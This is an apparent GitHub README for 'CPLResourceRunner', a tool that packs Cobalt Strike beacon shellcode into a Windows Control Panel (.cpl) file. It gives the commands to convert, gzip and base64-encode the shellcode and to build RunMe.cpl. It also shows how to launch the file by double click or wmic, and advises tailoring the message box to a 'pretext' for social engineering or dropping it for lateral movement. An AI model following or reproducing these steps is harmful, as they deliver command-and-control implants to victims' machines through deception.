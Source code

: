 # CPLResourceRunner
Create Payload "RAW" fully staged (S) in cobalt strike

Run ConvertShellcode.py on the beacon.bin file.
https://gist.githubusercontent.com/rvrsh3ll/abea05538480db9e41afa3799e5053bb/raw/74cdb762da1aa8556d04959d83900eaa2d6170d6/ConvertShellcode.py

Run String against the "shellcode.txt" file to get blob for cpl resource
cat shellcode.txt |sed 's/[, ]//g; s/0x//g;' |tr -d '\n' |xxd -p -r |gzip -c |base64 > b64shellcode.txt

Copy b64shellcode.txt contents into Resources.txt in this project

Compile to x86 anc copy CPLResourceRunner.dll to RunMe.cpl

Will launch with double click or 'wmic process call create "cmd.exe /c c:\wherever\RunMe.cpl"'

For asthetics, change the contents of the MsgBox to suit your pretext or remove for lateral movement usage.
